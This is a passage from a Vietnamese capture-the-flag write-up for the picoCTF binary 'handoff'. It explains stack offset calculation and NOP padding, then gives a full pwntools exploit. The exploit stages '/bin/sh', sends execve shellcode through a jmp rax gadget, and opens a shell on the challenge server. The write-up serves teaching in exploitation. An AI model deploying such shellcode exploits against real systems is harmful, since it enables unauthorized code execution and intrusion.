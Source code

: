 ```py
    interactive()

if __name__ == '__main__':
    exploit()
```

Để tính toán đúng offset ta cần để `sub rsp, 0x2e4` ta sẽ dựa vào padding tại option 1 là `A * 8` từ đó tính offset tại address hiện tại đến đó. Mình sẽ không giải thích ở đây quá nhiều vì nó đòi hỏi khả năng debug và chỉnh sửa payload liên tục. Và lý do tại sao 2 shellcode lại có nhiều `nop` đến thế thì đơn giản nó chỉ là padding để `shellcode` thực thi đúng với những gì mình mong muốn, Vì lúc đặt shellcode không có `nop` lên thì ta sẽ nhận thấy rằng sẽ có một số `instruction` không mong muốn bị chèn vào đó.

Bên cạnh đó ta còn có thể sử dụng thêm một cách chỉ dùng duy nhất một shellcode. Cách này ta sẽ sử dụng `option 1` như là nơi chứa chuỗi `/bin/sh` của ta và option 3 sẽ là nơi thực thi shellcode

```py
#!/usr/bin/python3

from pwn import *
from time import sleep

context.binary = exe = ELF('./handoff',checksec=False)
context.arch = 'amd64'
#p = process()
p = remote('shape-facility.picoctf.net', 52705)

# input()
jmp_rax  = 0x000000000040116c
pop_rdi = 0x00000000004014b3

for i in range(9):
    p.sendline(b'1')
    p.sendline(b'A')

p.sendline(b'1')
payload = b'/bin/sh\x00'
p.sendline(payload)
# input()
sleep(0.5)
p.sendline(b'3')

shellcode = asm('''
xchg rax,rdi
mov rax,0x3b
nop
sub rdi,0x4c
xor esi,esi
xor edx,edx
syscall
                ''')
print(len(shellcode))
p.sendline(shellcode + p64(jmp_rax))

p.interactive()
```
